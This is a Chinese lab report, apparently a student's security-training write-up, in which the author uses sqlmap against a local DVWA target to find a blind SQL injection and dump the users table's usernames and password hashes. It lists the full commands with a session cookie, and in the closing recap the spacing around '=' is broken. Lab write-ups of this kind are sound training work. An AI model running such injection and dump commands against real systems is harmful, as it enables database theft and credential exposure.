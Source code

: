 ```yaml
---
title: "网络安全实训6——SQL注入"
tags:
  - 网络安全实训
  - SQL注入
categories:
  - 网络安全
  - 实训
  - 实验报告
date: 2024-07-13 08:06:00
cover: https://img-blog.csdnimg.cn/6a525f6f18c64ca788535b07bd3b86ec.png#pic_center

---
```


# 网络安全实训 6——SQL 注入

## 安装环境

知新平台的文档图片无法加载

![image-20240713082058344](../img/zuolao/6/image-20240713082058344.png)

![image-20240713082140158](../img/zuolao/6/image-20240713082140158.png)

查看源码发现是外部引用，尝试恢复

恢复成功

![image-20240713082204564](../img/zuolao/6/image-20240713082204564.png)

## 开启 OWASP 靶机和 Kali 虚拟机

登录 dvwa

![image-20240713082833701](../img/zuolao/6/image-20240713082833701.png)

安全等级调 low

![image-20240713082944615](../img/zuolao/6/image-20240713082944615.png)

进入 SQL Injection（Blind）页面

![image-20240713083014817](../img/zuolao/6/image-20240713083014817.png)

### 随意输入一个数字，然后点击提交

![image-20240713083040908](../img/zuolao/6/image-20240713083040908.png)

### 安装 SQLmap

我用的是裸机当攻击机，所以安装个 SQLmap

![image-20240713083253628](../img/zuolao/6/image-20240713083253628.png)

### 用 F12 打开开发者工具

### 选中 Storage（存储）选项卡，找到 cookies，复制其中 PHPSESSID 的值（获取 cookies）

得到 `59mb9spqvkd9cuk543thagtsd5`

### 由于浏览器提交方式为 get 型，sqlmap 采用-u 命令。将刚才复制的 URL 和 COOKIE 写入命令

![image-20240713083823046](../img/zuolao/6/image-20240713083823046.png)

![image-20240713084248322](../img/zuolao/6/image-20240713084248322.png)

出错了，查看 Github 的 README 发现是需要前面加 `python` 运行

![image-20240713084138720](../img/zuolao/6/image-20240713084138720.png)

找到注入点

![image-20240713085141292](../img/zuolao/6/image-20240713085141292.png)

### 为了查看有哪些数据库，输入命令：

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --dbs`

![image-20240713085259586](../img/zuolao/6/image-20240713085259586.png)

### 为了查看有当前数据库，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch --current-db`

![image-20240713085348741](../img/zuolao/6/image-20240713085348741.png)

### 为了查看数据库中所有的表，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables`

![image-20240713085431822](../img/zuolao/6/image-20240713085431822.png)

### 为了查看 users 表中有哪些列，输入命令

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns`

![image-20240713085615328](../img/zuolao/6/image-20240713085615328.png)

### 爆破表中 user 和 password 这两列

`python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C"user,password" --dump`

爆破成功

![image-20240713085739164](../img/zuolao/6/image-20240713085739164.png)

上面有报错，问了下 ChatGPT-4o，也没啥有用的信息

![image-20240713090351933](../img/zuolao/6/image-20240713090351933.png)

重试了一下正常了

![image-20240713090344216](../img/zuolao/6/image-20240713090344216.png)

## 过程中的命令

输入命令的时候容易出错的地方主要是：引号必须加，否则命令会被识别为系统&命令，还有英文字符，写成中文字符会报错

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --dbs

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch --current-db

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa --tables

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users --columns

- python sqlmap.py -u "http://192.168.189.134/dvwa/vulnerabilities/sqli_blind/?id = 1&Submit = Submit#" --cookie = "security = low; PHPSESSID = 59mb9spqvkd9cuk543thagtsd5" --batch -D dvwa -T users -C "user, password" --dump

